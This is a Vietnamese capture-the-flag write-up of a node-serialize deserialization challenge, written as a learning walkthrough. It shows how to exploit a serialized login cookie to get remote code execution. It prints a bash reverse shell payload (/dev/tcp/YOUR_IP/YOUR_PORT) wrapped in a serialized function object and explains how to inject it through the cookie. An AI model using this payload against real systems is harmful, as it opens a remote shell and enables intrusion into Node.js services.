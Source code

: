 # Node - Serialize (Medium - 35 pts)

Chi tiết về Node - Serialize: https://www.npmjs.com/package/node-serialize

![image](https://user-images.githubusercontent.com/83667873/153467323-fceb7e3c-c77f-4fea-b739-5c3da1e478fa.png)

Ở trong challenge này chúng ta sẽ thấy có một form login, nhập giá trị tùy ý sau đó kiểm tra cookie:

![image](https://user-images.githubusercontent.com/83667873/153467666-23af8c97-1eda-4a3b-bb57-303aa23c3f0b.png)

Thực hiện base64-decode giá trị này, chúng ta sẽ nhận được một object đang bị serialize. Có lẽ ở phía server sẽ thực hiện unserialize object này sau đó thực hiện kiểm tra với password và username xem có trùng khớp hay không.

![image](https://user-images.githubusercontent.com/83667873/153468453-37acac4d-61dc-43d4-9f64-8a5f2236986c.png)

Dù thế nào thì mục đích của chúng ta cũng là có thể thực hiện RCE. Xem xét thì mình thấy bài này chúng ta không xem được kết quả trực tiếp nên mình sẽ chọn thực hiện theo hướng dùng reverse shell.

Reverse shell mà mình sẽ sử dụng:

```
require("child_process").exec('bash -c "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1"')
```

Vì mục đích của mình là sau khi unserialize thì object nó sẽ có dạng như:

```
{userName:"hi", passWord: function(){require('child_process').exec('bash -c "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1"', function(error, stdout, stderr) { console.log(stdout) });} }
```
Nên là mình sẽ thực hiện serialize một object mẫu để lấy payload:

![image](https://user-images.githubusercontent.com/83667873/153472443-eac22fa5-01ee-47a9-b813-be27d28fa5e2.png)

![image](https://user-images.githubusercontent.com/83667873/153472557-db8d74fb-ee9a-4f55-acce-89f599c56c03.png)

Thực hiện base64-encode giá trị trên và thay giá trị cookie thành giá trị này chúng ta sẽ thành công thực hiện được reverse shell:

![image](https://user-images.githubusercontent.com/83667873/153472737-692f9e00-cebc-4d8c-b5fd-cc49445a43d3.png)



